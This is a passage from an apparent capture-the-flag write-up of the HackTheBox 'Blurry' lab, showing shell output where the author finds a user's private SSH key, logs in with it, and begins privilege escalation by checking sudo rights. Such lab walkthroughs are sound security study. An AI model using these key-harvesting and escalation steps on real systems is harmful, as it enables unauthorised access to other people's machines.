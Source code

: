 There is also the `id_rsa` for us to use ssh to connect it 
```
jippity@blurry:~$ ls -al
total 60
drwxr-xr-x 6 jippity jippity  4096 May 30  2024 .
drwxr-xr-x 3 root    root     4096 Feb  6  2024 ..
drwxr-xr-x 2 jippity jippity  4096 Feb 17  2024 automation
lrwxrwxrwx 1 root    root        9 Feb 17  2024 .bash_history -> /dev/null
-rw-r--r-- 1 jippity jippity   220 Feb  6  2024 .bash_logout
-rw-r--r-- 1 jippity jippity  3570 Feb  6  2024 .bashrc
drwxr-xr-x 9 jippity jippity  4096 Feb  8  2024 .clearml
-rw-r--r-- 1 jippity jippity 11007 Feb 17  2024 clearml.conf
-rw-r--r-- 1 jippity jippity    29 Feb  6  2024 .clearml_data.json
-rw-r--r-- 1 jippity jippity    22 Feb  8  2024 .gitconfig
drwx------ 5 jippity jippity  4096 Feb  6  2024 .local
-rw-r--r-- 1 jippity jippity   807 Feb  6  2024 .profile
lrwxrwxrwx 1 root    root        9 Feb 17  2024 .python_history -> /dev/null
drwx------ 2 jippity jippity  4096 Feb 17  2024 .ssh
-rw-r----- 1 root    jippity    33 Jul 26 04:23 user.txt
jippity@blurry:~$ cd .ssh
jippity@blurry:~/.ssh$ ls -al
total 20
drwx------ 2 jippity jippity 4096 Feb 17  2024 .
drwxr-xr-x 6 jippity jippity 4096 May 30  2024 ..
-rw-r--r-- 1 jippity jippity  568 Feb 17  2024 authorized_keys
-rw------- 1 jippity jippity 2602 Feb 14  2024 id_rsa
-rw-r--r-- 1 jippity jippity  568 Feb 14  2024 id_rsa.pub

```
Then we can connect it by ssh
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Blurry/CVE-2024-24590]
└─$ ssh -i id_rsa jippity@blurry.htb                 
The authenticity of host 'blurry.htb (10.10.11.19)' can't be established.
ED25519 key fingerprint is SHA256:Yr2plP6C5tZyGiCNZeUYNDmsDGrfGijissa6WJo0yPY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'blurry.htb' (ED25519) to the list of known hosts.
Linux blurry 5.10.0-30-amd64 #1 SMP Debian 5.10.218-1 (2024-06-01) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Aug  1 11:37:37 2024 from 10.10.14.40
jippity@blurry:~$ 

```

# Privilege Escalation
Firstly, I would like check `sudo -l`
```
jippity@blurry:~$ sudo -l
Matching Defaults entries for jippity on blurry:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jippity may run the following commands on blurry:
    (root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth

```

